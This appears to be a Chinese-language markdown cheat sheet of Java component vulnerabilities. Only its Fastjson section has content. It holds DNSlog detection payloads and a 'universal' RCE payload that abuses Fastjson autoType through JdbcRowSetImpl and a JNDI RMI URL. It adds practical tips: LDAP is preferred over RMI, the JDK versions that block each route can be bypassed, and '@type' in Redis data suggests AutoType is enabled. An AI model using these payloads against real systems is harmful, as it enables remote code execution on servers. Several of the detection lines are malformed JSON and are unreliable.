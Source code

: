 

# JAVA组件漏洞

[TOC]

- [Fastjson](#1. Fastjson)

- [Apache-Poi](#Apache-poi)

- [Shiro](#Shiro)

  

## 1. Fastjson

### 	1.1 版本 <= 1.2.48

### 		1.1.1 回显

```
======= 回显 =======
{"@type":"java.net.Inet4Address", "val":"dnslog"}
{"@type":"java.net.Inet6Address", "val":"dnslog"}
{"@type":"java.net.InetSocketAddress"{"address":, "val":"dnslog"}}
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"dnslog"}}""}
{{"@type":"java.net.URL", "val":"dnslog"}:"aaa"}
Set[{"@type":"java.net.URL", "val":"dnslog"}]
Set[{"@type":"java.net.URL", "val":"dnslog"}
{{"@type":"java.net.URL", "val":"dnslog"}:0
```

### 		1.1.2  RCE

```
======= 通杀payload =======
{
    "rand1": {
      "@type": "java.lang.Class",
      "val": "com.sun.rowset.JdbcRowSetImpl"
    },
    "rand2": {
      "@type": "com.sun.rowset.JdbcRowSetImpl",
      "dataSourceName": "rmi://127.0.0.1:1099/aaa",
      "autoCommit": true
    }
}
```

### 		1.1.3 利用要点

(备注：根据实战中经验，更推荐使用Ldap协议进行漏洞利用）

RMI协议的利用方式 在JDK 6u132/7u122/8u113 及以上版本中修复了

LDAP协议的利用方式 在JDK 6u211/7u201/8u191 及以上版本中修复了

LDAP的利用方式要优于RMI, 且LDAP可以直接返回序列化对象, 绕过更高版本的JDK限制

当发现一台Redis的数据中含有@type的字样时，意味着AutoType多半是开的



## 2. Apache-poi

## 3. Shiro
